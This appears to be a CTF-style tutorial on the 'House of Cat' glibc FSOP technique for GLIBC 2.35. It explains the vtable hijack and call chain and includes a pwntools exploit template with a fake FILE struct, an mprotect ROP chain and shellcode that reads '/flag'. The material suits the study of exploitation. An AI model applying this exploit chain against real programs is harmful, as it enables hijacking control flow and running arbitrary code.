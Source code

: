 [toc]

## Background

**House analysis**: [link](https://bbs.kanxue.com/thread-273895.htm) by author *CatF1y*.

**IO structs offset**: [link](https://github.com/4xura/Axura-pwn-exp/blob/master/IO%20Structs/IO_structs.md).

**EXP template**: [link](https://github.com/4xura/Axura-pwn-exp/blob/master/xpl.py).

On one hand, if we hijack the vtable pointer of file struct to `_IO_wfile_jumps`, I/O operation will call `_IO_wfile_xsputn` (+0x38) for functions like `puts` or `printf`.

> When we use `printf` to output a string with `\n`, the function will be replaced by `puts` and the next-line character is removed.

Then function calls can be illustrated as:

```
printf/puts ->_IO_XSPUTN->_IO_OVERFLOW
```

On the other hand, when a program exits, `_IO_flush_all_lockp` will iterate `_IO_list_all` and call `_IO_OVERFLOW` (+0x18) instead:

```
exit
	fcloseall
		_IO_cleanup
			_IO_flush_all_lockp
				_IO_OVERFLOW
```

Overall, if we hijack the vtable pointer to `_IO_wfile_jumps+0x10` when `puts/printf` is called, or to `_IO_wfile_jumps+0x30` in FSOP, I/O operation will now call **` _IO_wfile_seekoff`** (+0x48) instead.

For the House of Cat, we aim to write the `_IO_wfile_jumps` with an offset over the vtable pointer. To make I/O operation eventually executes  **` _IO_wfile_seekoff`** because of the offset made. We usually have two ways to trigger the operation introduced above, but to use the 1st way to trigger `_malloc_assert`, requiring us to own the primitive of arbitrary write to any address (to hijack `stderr`). Thus, in most scenarios we will go for FSOP.

## FSOP | _IO_wfile_seekoff

**Attack Chain**:

```
_IO_wfile_seekoff
	_IO_switch_to_wget_mode
		_IO_WOVERFLOW
```

**Execution Flow**:

After meeting the required conditions, `_IO_WOVERFLOW` is called:

```
<_IO_wfile_seekoff+41>: mov rax, [rdi+0xa0];		
<_IO_wfile_seekoff+70>: mov rdx, [rax_0x8];
<_IO_wfile_seekoff+74>: cmp [rax+0x10], bx;
<_IO_switch_to_wget_mode+4> : mov rax, [rdi+0xa0];	# rax1=_wide_data
<_IO_switch_to_wget_mode+15>: mov rdx, [rax+0x20];
<_IO_switch_to_wget_mode+19>: cmp rdx, [rax+0x18];
<_IO_switch_to_wget_mode+25>: mov rax, [rax+0xe0];	# rax2=[rax1+0xe0] (wide vtable) 
<_IO_switch_to_wget_mode+37>: call [rax+0x18];		# call [rax2+0x18] (_overflow)
```

**Fake IO Deployment**:

- `vtable`:  `_IO_wfile_jumps+0x10`.
- `_lock`: A writable address, i.e. heap, writable libc address.
- `_wide_data`: An address `rax1` in our control, namely `*(fp+0xa0)=rax1`.
- `_wide_data->_IO_read_ptr ！= _wide_data->_IO_read_end`: namely  `*(A+0x0) != *(A+0x8)`.
- `_wide_data->_IO_write_ptr > _wide_data->_IO_write_base`: namely  `*(A+0x20) > *(A+0x18)`. 
- If we make `_wide_data=fp+0x30`, actually we can let `fp->_IO_save_base < f->_IO_backup_base`, for less memory space required.
- `_wide_data->_wide_vtable`: Heap address `rax2` in our control, namely `*(A+0xe0)=rax2`.
- `_wide_data->_wide_vtable->overflow`: Starting function/gadget `C`  to hijack `RIP`, namely `*(rax2+0x18)=C`.

### GG | setcontext

**Version**: GLIBC 2.35

```py
# Gadgets
_IO_list_all    = libc_base + libc.sym['_IO_list_all']
_IO_wfile_jumps = libc_base + libc.sym['_IO_wfile_jumps']
setcontext      = libc_base + libc.sym['setcontext'] + 61
mprotect        = libc_base + libc.sym['mprotect']

rop 	        = ROP(libc)
p_rdi_r         = libc_base + rop.find_gadget(['pop rdi', 'ret'])[0]
p_rsi_r         = libc_base + rop.find_gadget(['pop rsi', 'ret'])[0]
p_rdx_rbx_r     = libc_base + rop.find_gadget(['pop rdx', 'pop rbx', 'ret'])[0]
leave_r	        = libc_base + rop.find_gadget(['leave', 'ret'])[0]
ret             = libc_base + rop.find_gadget(['ret'])[0]
pa(_IO_list_all)
pa(_IO_wfile_jumps)
pa(setcontext)

fakeIO_addr    = 0xdeadbeef
mprotect_chain = [p_rdi_r, fakeIO_addr&(~0xfff), p_rsi_r, 0x4000, \
                  p_rdx_rbx_r, 7, 0, mprotect, fakeIO_addr+0x170]	# 0x48 bytes
orw_chain      = asm(shellcraft.cat('/flag'))	# 0x23 bytes
pa(fakeIO_addr)

pl = flat({
    # fake_IO   
    0x0:  0,	# _flag = rdi
    0x40: 1,	# _IO_buf_end; rcx!=0
    0x48: 2,	# _IO_save_base
    0x50: fakeIO_addr+0x50,	# _IO_backup_base=rdx
    0x58: setcontext, # _IO_save_end=rip
    0x68: 0,	# _chain
    0x88: fakeIO_addr+0x30,	# _lock (writable addr)
    0xa0: fakeIO_addr+0x30,	# rax1 (fp->_wide_data)
    0xc0: 1,	# mode=1
    0xd8: _IO_wfile_jumps+0x10,	# vtable,
    0xf0: [fakeIO_addr+0xf0, ret],	# setcontext ->
    0x110: fakeIO_addr+0x40,	# rax2 (fp->_wide_data->vtable)
    0x120: mprotect_chain,
    0x170: orw_chain,	# mprotect ->
}, filler='\0')
"""
<setcontext+61> :  mov rsp, [rdx+0xa0]
<setcontext+301>: push rcx
<setcontext+334>: ret
"""
```

- The value of `rcx` is related to `mode`, `_IO_helper_jumps`, and the fake `vtable` — the difference between two libc addresses validated by `_IO_validate_vtable`.
- If we want to execute `system` or one-gadget instead of `setcontext`, set `rdx` and make it larger than previous adjacent value to meet the requirements. 
- The set up for `mode` (+0xc0) is not definitely necessary .
- If we make `_flag&0x2!=0`, execution flow will get inside `buffered_vfprintf`, which makes `mode!=0`.

**Illustration**:

![alt text](images/house_of_cat_depict.png)

